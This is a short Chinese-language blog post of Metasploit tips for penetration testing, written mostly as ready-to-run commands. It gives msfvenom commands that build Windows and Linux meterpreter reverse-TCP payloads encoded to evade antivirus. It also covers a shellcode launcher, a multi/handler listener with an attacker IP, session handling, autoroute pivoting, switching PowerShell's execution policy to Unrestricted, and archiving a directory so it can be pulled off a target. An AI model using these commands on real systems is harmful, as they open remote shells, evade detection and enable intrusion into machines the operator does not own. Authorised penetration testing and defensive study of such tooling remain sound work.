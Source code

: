 ```yaml
---
layout: post
title: metasploit 使用tips
categories: 渗透测试
tag: metasploit
---
```


## payload 生成 、 分离免杀

- 生成shellcode

    `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -ex86/shikata_ga_nai -i 5 -f raw > test.c`

- shellcode 加载器

    https://github.com/clinicallyinane/shellcode_launcher/
    `shellcode_launcher.exe -i test.c`

- linux 

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf`

## meterpreter

- handle

    ```shell
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set lport 4444
    set lhost 192.168.231.23
    run
    ```

- sessions 查看当前session
  - background 切换sessions 至后台
  - sessions -i 1  将session 1 调至前台

- run aotorouter -p  自动添加路由
  - post/multi/manage/autoroute自动添加路由

## powershell

- 开执行权限

    Set-ExecutionPolicy Unrestricted

## linux 

- 遇到文件下载失败 试试先打包 再下

    打包当前路径 tmp目录 tar -zcvf tmp.tar.gz ./tmp